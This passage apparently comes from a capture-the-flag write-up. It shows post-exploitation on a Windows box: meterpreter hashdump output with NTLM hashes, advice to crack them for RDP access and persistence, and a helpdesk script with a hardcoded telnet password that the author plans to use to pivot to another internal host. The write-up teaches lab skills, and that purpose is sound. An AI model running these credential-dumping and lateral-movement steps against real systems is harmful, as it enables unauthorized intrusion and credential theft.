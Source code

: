 ```
$ cat "C:\Documents and Settings\Administrator\Desktop\flag.txt"
KCORP{[REDACTED]}
```

## More Recon
There's a pretty neat tool in `meterpreter` you can use to dump the password hashes of all users. Needless to say, this is the first step to take. Since we already have a shell, it's not entirely necessary, but doing so helps us maintain persistence and also RDP in to get a GUI (which is also not really necessary, but I find Windows is a lot more difficult to navigate on a CLI).

```
$ hashdump
Administrator:500:e3aec5bf6ae40663aad3b435b51404ee:5bf11792e028bb239f79e023ffe1f2ca:::
Erin:1004:b735063fc1a9c21ec482c03f54cdb5d9:aca699a0db2681748c775a062a0e29d7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9a4bcab4409994846d0cb2f9227bb602:e7a7ba2a5c2edfd796d346218b2cd6dc:::
Jim Rock:1003:78d866152028b45e944e2df489a880e4:746fdb64fd2e11d171d80823820969ab:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:fc9e61569461e6035492a8f55950a103:::
```

These are all NTLM hashes which can be looked up quite easily. Once you have the administrator password, you can RDP in with your favourite client (I used Remmina) and look around on the file system. The thing that caught my eye the most was the `checkproxy.py` file stored in the helpdesk.

```
$ cat "C:\helpdesk\checkproxy.py"
import os
import sys
import socket
import telnetlib
import re
import time
print "CheckProxy is currently broken. Don't use"
exit()

tn = telnetlib.Telnet("10.245.32.98")
tn.write("yOnEwsTortSm\n")
time.sleep(5)
tn.write("squidstatus 0\n")
time.sleep(5)
tn.write("exit\n")
time.sleep(5)
lines = tn.read_all()
se = re.search("\d+ instances of squid running",lines)
raw_input()
```

Reading through the script makes it quite clear that it's attempting to `telnet` into the `.98` box. Fortunately for us, the password is hardcoded into the script. The next step should be quite obvious. There's also another file, `changelog.txt` in the helpdesk which informs us of the IP address `10.245.34.77`. This is one our `nmap` scan didn't show us, so let's write it down for now.

## More Hacking
Let's go back to our Kali shell now and try to access the `.98` box.
